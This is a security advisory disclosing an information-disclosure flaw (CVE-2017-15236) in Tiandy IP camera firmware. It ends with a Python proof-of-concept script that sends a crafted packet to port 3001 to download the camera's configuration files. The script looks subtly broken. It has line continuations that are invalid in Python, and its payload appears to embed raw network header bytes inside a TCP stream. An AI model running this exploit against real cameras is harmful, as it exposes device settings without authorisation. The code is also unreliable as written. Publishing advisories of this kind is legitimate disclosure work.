## Vulnerability Summary
The following advisory describes sensitive information Disclosure found in Tiandy IP cameras version 5.56.17.120

Tianjin Tiandy Digital Technology Co., Ltd ( Tiandy Tech) is “one of top 10 leading CCTV manufacturer in China and a global supplier of advanced video surveillance solutions.”

## Credit 
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We tried to contact Tiandy starting from August 16 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for this vulnerability.

CVE: CVE-2017-15236

## Vulnerability details
Tiandy uses a proprietary protocol, a flaw in the protocol allows an attacker to forge a request that will return configuration settings of the Tiandy IP camera.

## Proof of Concept
By sending the following request, an attacker can download the following files:

``
config_server.ini
extendword.txt
config_ptz.dat
config_right.dat
config_dg.dat
config_burn.dat
```

## POC.PY

```
import socket
ip = '192.168.1.1'
data1 = '\x74\x1f\x4a\x84\xc8\xa8\xe4\xb3\x18\x7f\xd2\x21\x08\x00\x45\x00\x00\xcc\x3e\x9a\x40\x00\x40\x06\xd4\x13\xac\x10\x65\x75\x6e\x31\xa7\xc7\x43\x5b\x0b\xb9\x85\xbc\x1d\xf0\x5b\x3e\xe8\x32\x50' +
'\x18\x7f\xa4\xc6\xcf\x00\x00\xf1\xf5\xea\xf5\x74\x00\xa4\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00' + ip +
'\x09\x50\x52\x4f\x58\x59\x09\x43\x4d\x44\x09\x44\x48\x09\x43\x46\x47\x46\x49\x4c\x45\x09\x44\x4f\x57\x4e\x4c\x4f\x41\x44\x09\x36\x09\x63\x6f\x6e\x66\x69\x67\x5f\x73\x65\x72\x76\x65\x72\x2e' +
'\x69\x6e\x69\x09\x65\x78\x74\x65\x6e\x64\x77\x6f\x72\x64\x2e\x74\x78\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x70\x74\x7a\x2e\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x72\x69\x67\x68\x74\x2e' +
'\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x64\x67\x2e\x64\x61\x74\x09\x63\x6f\x6e\x66\x69\x67\x5f\x62\x75\x72\x6e\x2e\x64\x61\x74\x0a\x0a\x0a'

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,3001))
s.send(data1)
while True:
  buf = s.recv(64)
  if not len(buf):
    break
  print buf
```